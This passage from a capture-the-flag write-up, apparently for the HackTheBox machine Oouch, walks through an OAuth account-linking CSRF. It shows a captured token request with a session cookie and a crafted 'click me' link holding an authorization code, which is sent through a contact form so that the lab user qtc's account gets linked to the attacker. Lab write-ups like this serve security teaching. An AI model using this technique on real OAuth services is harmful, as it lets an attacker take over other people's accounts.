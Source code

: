 ```

GET /oauth/connect/token?code=76tcpZBboMvWODlVU0LNkRDMVCQB7m HTTP/1.1
Host: consumer.oouch.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/connect/token&scope=read
Connection: close
Cookie: session=.eJy1kM9OwzAMxl8ly3mg_G2aPQWCAwc0TY5jrxVdi5pUQpr27kSICwdOwMmy7N_n7_NVnniCMlCRh5erFLUVeaFS4ExyLx8mgkJiWs5inEVdBCC2oajDWMRb27mXx9v-77hHOo-lrlDHZRZP2yfE27QTzzThciGh3jPvfsHe4TKX7ULrDyL_avzb8eO-vX6lMshDXTdq3ZjlQZpoTWfARw_ck4smhaRZaRMwg0NryaPPoECDcsnnjEphz7lTDEZhJqaEnQMMGjoOTkPoooEUvY7EuSn0aD0k5a3jztiI1oSkjGKTk_WqZcGy8qkurzQ3P8FCAq1DMl3wzkGOifvggGyATNBDbC5cto3bCq1fIeTtA92OwOo.XmawFg.5VWJ9iBk8looCFxsuQTc5oCDMJ8
Upgrade-Insecure-Requests: 1

```

I’ll craft that into a link, and drop the request so it’s not sent to the server:

```

<a href="http://consumer.oouch.htb:5000/oauth/connect/token?code=QY4G64bZGMj05zy5Krq49HmMDHIP8w">click me</a>

```

I’ll submit the link to the contact form. After a minute or two, I’ll see 0xdf-auth is no longer connected in the Profile page for 0xdf-consumer:

![image-20200309173807145](https://0xdfimages.gitlab.io/img/image-20200309173807145.png)

I’ll log out, and then go to `/oauth/login`, and click yes when prompted to login using OAuth. But my account on the authorization server now is linked to whoever clicked the link. Visiting the Profile page, I see I’m logged in as qtc:

![image-20200309173903551](https://0xdfimages.gitlab.io/img/image-20200309173903551.png)

### qtc on authorization

#### Enumeration

Now with access to as qtc on the consumer site, I can see documents stored for the admin account:

![image-20200309174022442](https://0xdfimages.gitlab.io/img/image-20200309174022442.png)

The three documents each give a hint:
- I have credentials for application registration.
- I need to find `/api/get_user` API and use it to get user data
- The `/oauth/authorize` method, which I saw in the Oauth flow above as a POST, now supports GET, which makes sending it as a link to the contact form a possibility.
- I’ll eventually find SSH keys for qtc which I’ll use to get a shell.
